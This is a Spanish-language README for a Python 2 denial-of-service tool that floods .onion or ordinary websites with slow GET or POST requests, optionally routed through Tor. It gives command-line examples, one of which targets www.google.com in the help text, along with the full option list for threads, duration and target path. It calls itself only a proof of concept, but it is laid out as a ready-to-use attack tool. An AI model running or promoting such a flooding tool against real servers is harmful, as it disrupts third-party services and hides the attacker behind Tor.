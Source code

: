 #  spammer-get-atack-tor

----

```Script no serio, solo POC```

Script que permite realizar conexiones cebollas para atacar paginas .onion o paginas convencionales via tor. Capacidad de ajustar la cantidad de informacion a enviar, el numero de hilos a usar, el tiempo de duracion del ataque, atacar a un directorio en especial y etc. Su ataque es sencillo, trata de saturar un recurso en base a peticiones GET en rutas del servidor excesivamente lentas.

----

 ![Alt text](./image/Screenshot_2021-12-11_02-55-33.png) 

Ejemplo:


```python
	python2 script-dos.py -ip 127.0.0.1 -t False -p 8000 -th 20 -c 10 -peticion GET -time 30
```


Este ejemplo atacaria al equipo local hacia el puerto 8000 usando 20 hilos y 10 caracteres por peticion GET, duraria 30 segundos el ataque, el uso tor esta desactivado, para mas inrformacion ```--help```.


```python
	python2  spammer-get-atack-tor.py --help
	usage: spammer-get-atack-tor.py [-h] [-t TOR] [-ip TARGET] [-p PORT] [-th THREADS]
                     [-c CHARS] [-peticion PETICION] [-time TIMEATACK]
                     [-dir DIRECTORIO]
	optional arguments:
	  -h, --help            show this help message and exit
	  -t TOR, --tor TOR     Usar Tor en el ataque, por defecto activado
	  -ip TARGET, --target TARGET
        	                host o ip a atacar
	  -p PORT, --port PORT  puerto a atacar
	  -th THREADS, --threads THREADS
	                        threads/hilos a usar en el ataque, por defecto 20
	  -c CHARS, --chars CHARS
	                        caracteres a enviar, por defecto 20
	  -peticion PETICION, --peticion PETICION
	                        peticones a usar: GET o POST, POST por defecto
	                        ejemplo: python2 script-dos.py -ip www.google.com -p
	                        80 -th 30 -peticion GET -t True
	  -time TIMEATACK, --timeAtack TIMEATACK
	                        tiempo de duracion del ataque en segundosm tiempo por
	                        defecto: 45 segundos
	  -dir DIRECTORIO, --directorio DIRECTORIO

```
Para el ataque via tor, debe a ver un proxy tor SOCKS5 corriendo en la maquina local en el puerto 9050.

----
